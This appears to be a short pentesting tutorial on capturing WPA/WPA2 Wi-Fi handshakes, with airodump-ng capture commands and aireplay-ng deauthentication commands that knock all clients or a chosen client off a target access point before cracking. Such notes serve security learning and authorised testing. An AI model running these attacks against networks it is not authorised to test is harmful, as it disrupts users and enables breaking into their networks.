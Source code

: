 # Handshake Capture

## Intro & Concept

* One way to attack Wi-Fi networks **(WPA/WPA2)** is by capturing a **handshake** from an **authentication** or just passively waiting for it.
* Now in order to capture this you will need to have the AP **ESSID** or the **BSSID,** and the **channel** that is **listening** to your **AP** to start **capturing/listening** packets around that specific router.

```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```

* Now you have two options, wait for your client to connect the AP you are trying to break in, or make some active attack, I always prefer the second option. You need to make a **de-authentication** attack to "deauthenticate" a client or just **make a de-auth of all clients.**

```bash
aireplay-ng -0 0 -e 'AP_name' -c 'FF:FF:FF:FF:FF:FF' wlan0mon #Send de-auth packets to broadcast address, de-auth all-clients
aireplay-ng -0 0 -e 'AP_name' -c '8d:02:03:2d:cf:ws' wlan0mom #De-auth specific client's
```

* Once on the **airodump-ng** screen appears above to the right, **WPA Handshake,** you can **stop sniffing** and start with the **cracking** process.
